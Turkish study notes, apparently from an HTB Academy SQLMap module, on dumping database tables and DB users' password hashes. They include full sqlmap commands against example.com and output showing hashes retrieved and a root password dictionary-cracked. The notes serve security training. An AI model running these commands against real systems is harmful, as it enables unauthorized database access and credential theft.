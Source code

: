 ```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```
![Pasted image 20241215153106.png](/img/user/resimler/Pasted%20image%2020241215153106.png)

Önceki örnekte SQLMap'in otomatik parola hash kırma özelliğine sahip olduğunu görebiliyoruz. Bilinen bir hash formatına benzeyen herhangi bir değer alındığında, SQLMap bulunan hash'lere sözlük tabanlı bir saldırı gerçekleştirmemizi ister.

Hash kırma saldırıları, kullanıcının bilgisayarında bulunan core sayısına bağlı olarak çok işlemli bir şekilde gerçekleştirilir. Şu anda, 1,4 milyon giriş içeren bir sözlükle (halka açık parola sızıntılarında görünen en yaygın girişlerle yıllar içinde derlenmiştir) 31 farklı hash algoritması türünü kırmak için uygulanmış bir destek vardır. Bu nedenle, bir parola hash'i rastgele seçilmemişse, SQLMap'in bunu otomatik olarak kırma olasılığı yüksektir.


## DB Users Password Enumeration and Cracking

DB tablolarında bulunan kullanıcı kimlik bilgilerinin yanı sıra, veritabanına özgü kimlik bilgilerini (örneğin, bağlantı kimlik bilgileri) içeren sistem tablolarının içeriğini de dump etmeye çalışabiliriz. Tüm süreci kolaylaştırmak için SQLMap, özellikle böyle bir görev için tasarlanmış özel bir --passwords anahtarına sahiptir:

```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch

...SNIP...
[14:25:20] [INFO] fetching database users password hashes
[14:25:20] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'debian-sys-maint'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

[14:25:20] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:25:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes 
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass

[14:25:28] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 14:25:28 /2020-09-18/
```
